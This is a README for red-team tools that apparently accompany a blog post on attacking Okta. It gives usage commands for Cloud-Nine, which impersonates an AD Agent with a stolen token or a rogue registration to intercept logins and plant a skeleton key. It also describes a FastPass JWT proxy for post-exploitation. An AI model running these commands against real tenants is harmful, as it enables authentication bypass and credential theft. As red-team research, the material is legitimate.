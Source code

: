 ## Info

This repo contains projects to support the "Okta for Red Teamers" blog post [here](https://trustedsec.com/blog/okta-for-red-teamers).

## Cloud-Nine

An Okta Agent tool which emulates an AD Agent, allows interception of authentication requests, and adding a skeleton key.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

Two modes are supported:

1. Use an stolen AD Agent token to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 token --api-token 0023452Lllk2KqjLBvaxANWEgTd7bqjsxjo8aZj0wd --app-id 0oa7c027u2TcJxoki697 --agent-id a537cnm9ldwPILkqP697
```

2. Register a new AD Agent with Okta and intercept authentication requests:

> Note: You'll need an OAuth Response Code which you can get from:

```
https://example.okta.com/oauth2/authorize?redirect_uri=%2Foauth-response&response_type=code&client_id=cappT0Hfy97F1BoO1UTR&prompt=select_account
```

Then we can pass this as an arg to:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 oauth --machine-name DC01 --windows-domain lab.local --code OAUTH_CODE_HERE
```

## OktaRealFast

This is a proxy tool for validating Okta FastPass JWT's before forwarding them to a target host.

The idea is simple.. it gives the ability to see if a popup is going to be presented to the user during post-exploitation. 

More information in the blog post https://blog.xpnsec.com/identity-providers-redteamers.

## malIDP

This has been moved to its own repository at [https://github.com/xpn/malIDP](https://github.com/xpn/malIDP).

